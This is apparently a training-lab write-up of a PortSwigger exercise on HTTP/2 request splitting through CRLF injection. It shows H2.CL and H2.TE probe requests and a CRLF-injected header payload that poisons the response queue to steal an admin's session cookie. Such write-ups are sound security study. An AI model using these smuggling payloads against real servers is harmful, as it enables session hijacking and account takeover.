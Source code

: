 # HTTP/2 request splitting via CRLF injection | Feb 15, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection), you'll learn: HTTP/2 request splitting via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

> Note:
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215180904.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215180932.png)

In here, we see the web application has a login page. If we can capture some users' requests, we could hijack their accont!

To do so, we can try to exploit **HTTP request smuggling vulnerability**.

**Now, we can try to send a HTTP/2 (HTTP version 2) request:**

> Note: To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181300.png)
>  
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181317.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181329.png)

As you can see, **the web application accepts HTTP/2**.

Now, we can try to test it's vulnerable to **H2.CL** (Front-end uses HTTP/2, back-end uses `Content-Length` header),or **H2.TE** (Back-end uses `Transfer-Encoding` header).

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181656.png)

Nope.

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215181807.png)

Still nope.

Hmm... We can also try to do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection**.

In HTTP/2, we can downgrade the request to HTTP/1 (As you can see in the above attack requests). We can also perform response queue poisoning, which splitting a single HTTP request into exactly two complete requests on the back-end. In that attack, the split occurred inside the message body, but when HTTP/2 downgrading is in play, we can also cause this split to occur in the headers instead.

This approach is more versatile because we aren't dependent on using request methods that are allowed to contain a body. For example, we can even use a `GET` request:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

This is also useful in cases where the `Content-Length` is validated and the back-end doesn't support chunked encoding.

But before we do that, we need to **accout for front-end rewriting**.

To split a request in the headers, we need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. Otherwise, one of the requests may be missing mandatory headers.

For example, we need to ensure that both requests received by the back-end contain a `Host` header. Front-end servers typically strip the `:authority` pseudo-header and replace it with a new HTTP/1 `Host` header during downgrading. There are different approaches for doing this, which can influence where you need to position the `Host` header that you're injecting.

Consider the following request:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header to the end of the current list of headers. As far as an HTTP/2 front-end is concerned, this after the `foo` header. Note that this is also after the point at which the request will be split on the back-end. This means that the first request would have no `Host` header at all, while the smuggled request would have two. In this case, we need to position your injected `Host` header so that it ends up in the first request once the split occurs:

```http
:method GET
:path /
:authority vulnerable-website.com
foo bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

We'll also need to adjust the positioning of any internal headers that we want to inject in a similar manner.

Armed with above information, let's **poison the response queue via request splitting and CRLF injection**:

- Adding a new header with CRLF injection:

```
Name: foo

Value: bar\r\n
\r\n
GET /404pls HTTP/1.1\r\n
Host: 0a260048048eb6b8c19b638500330014.web-security-academy.net
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215183428.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184037.png)

> Note: To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.

**Then, send the request twice to fetch an arbitrary response, if we recieved a 404 response, that's our own poisoned 404 response:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184257.png)

**Any other response code indicates that you have successfully captured a response intended for the admin user:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184527.png)

Nice! We successfully captured admin user's session cookie!

**Let's modify our session cookie to the admin one!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184624.png)

**After that, go to the admin panel and delete user `carlos`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184647.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-14/images/Pasted%20image%2020230215184656.png)

# What we've learned:

1. HTTP/2 request splitting via CRLF injection